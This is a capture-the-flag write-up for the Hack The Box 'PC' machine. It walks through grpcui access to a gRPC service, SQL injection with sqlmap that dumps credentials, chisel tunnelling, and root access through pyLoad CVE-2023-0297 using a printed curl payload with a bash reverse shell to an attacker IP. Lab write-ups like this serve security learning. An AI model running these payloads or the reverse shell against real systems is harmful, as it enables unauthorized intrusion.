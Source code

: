 # HTB - PC

## Summary

This was an active 'easy' box. The initial foothold took me a long time, because it was hard to figure out how to communicate with the grpc service running on port 50051. Then its just a simple sql injection. The privilege escalation is an easy exploit of a CVE

<br />

## Interacting with gRPC

nmap (with `-p-` option) tells us port `22` and port `50051` are open  
Googling port `50051` tells us that this is a common port to use with `gRPC`  
`gRPC` is a Remote Procedure Call framework that can run on any environment. An RPC is basically like an API  
There are a lot of tools for interacting with gRPC but `grpcui` worked best for me  
Installation:  
- `git clone https://github.com/fullstorydev/grpcui`  
- `cd grpcui`  
- `go install .` - Don't know if this is necessary  
- `make install`  

Usage:  
- `~/go/bin/grpcui -plaintext 10.10.11.214:50051`  

This enables us to interact with the gRPC service in a Web UI  

We can use the "RegisterUser" method to create ourselves a new user, and LoginUser to login as that user, which gives us back a token  
We can then use the "getInfo" method with a Metadata field: `token:eyJ0eXAiOiJKV1QiL...` and `id:1` in the request data, and we get back the message: "The admin is working hard to fix the issues."  
If we put `1;whoami` in the id field instead, we get back "sqlite3.Warning: You can only execute one statement at a time"  
This indicates the sqlite3 database the gRPC application is using may be vulnerable to sql injection  

<br />

## SQL Injection

We can intercept the HTTP request with burp and save the request as `pc_grpc.req`  
**Note:** We can only intercept the HTTP request with burp because we are using `grpcui` which (I think) wraps the gRPC requests in HTTP requests  

Then, we can run:  
`sqlmap -r pc_grpc.req -p id`  
Which tells us that the back end DBMS is SQLite which lines up with our current understanding  
sqlmap also tells us that the `id` parameter is vulnerable to a boolean-based blind and a Generic UNION query  
We like the Generic UNION query option more, so:  
`sqlmap -r pc_grpc.req -p id --technique=U --batch --dump`  
- `--batch` means dont ask for user input, just use the default  
- `--technique=U` means use only the UNION query technique  

From this, we get a dump of the database including: 

```
admin:admin
sau:HereIsYourPassWord1431
```

We are able to ssh in as the sau user

<br />

## Privilege Escalation

I brought linpeas over to the target and in the "Active Ports" section, we find that 127.0.0.1:8000 is open and listening  
We can bring chisel over and use it to forward requests from our attack box to that service:  
On attack box:  
- `./chisel server --reverse -v -p 8688`  

On target:  
- `./chisel client 10.10.14.3:8688 R:127.0.0.1:8001:127.0.0.1:8000 &`  

This will forward connections to our attack box's `127.0.0.1:8001` to `127.0.0.1:8000` on the target  

Going to a browser on our attack box and going to `127.0.0.1:8001` brings us to a `pyLoad` login page  

pyLoad is vulnerable to `CVE-2023-0297` which is an unauthenticated RCE vulnerability  
We can see the poc at: https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad  

Basically, we can run:  
```bash
curl -i -s -k -X $'POST' --data-binary $'jk=pyimport%20os;os.system(\"<put url encoded command here>\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' $'http://<target>/flash/addcrypted2'
```
and the command specified will be executed  
In this case, I url-encoded the command `bash -c 'bash -i >& /dev/tcp/10.10.14.3/8686 0>&1'` to create the final command:  
```bash
curl -i -s -k -X $'POST' --data-binary $'jk=pyimport%20os;os.system(\"%20bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.3%2F8686%200%3E%261%27\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' $'http://127.0.0.1:8001/flash/addcrypted2'
```

With a netcat listener on `8686` we get a shell as root  
